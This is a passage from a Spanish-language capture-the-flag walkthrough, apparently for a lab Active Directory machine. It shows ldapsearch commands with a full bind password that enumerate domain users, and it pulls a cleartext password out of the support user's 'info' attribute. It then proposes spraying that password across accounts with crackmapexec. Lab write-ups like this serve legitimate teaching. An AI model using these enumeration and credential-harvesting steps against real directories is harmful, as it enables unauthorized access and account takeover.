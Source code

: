 Primero, vamos a aplicar un filtro que nos obtenga solamente los nombres de los usuarios, que al parecer los representa con el nombre **sAMAccountName**:
```bash
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i 'samaccountname'
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: Administrators
sAMAccountName: Users
sAMAccountName: Guests
sAMAccountName: Print Operators
sAMAccountName: Backup Operators
sAMAccountName: Replicator
sAMAccountName: Remote Desktop Users
...
...
...
```

Podemos probar a ver si obtenemos solamente un usuario:
```bash
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i 'samaccountname: Administrator'
sAMAccountName: Administrator
```
Sí podemos.

La idea aquí es ir obteniendo la información de cada usuario que pueda encontrar la herramienta **ldapsearch**, pero para no alargar esto, revisa el **usuario support**, verás algo interesante por ahí:
```bash
ldapsearch -x -H ldap://10.10.11.174 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i 'samaccountname: support' -B 40
dSCorePropagationData: 20220528111146.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133719420986193087
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
...
...
...
```
Esa parece ser una contraseña en texto claro, podemos probarla en todas las cuentas como ya lo hicimos con la anterior contraseña usando **crackmapexec**.
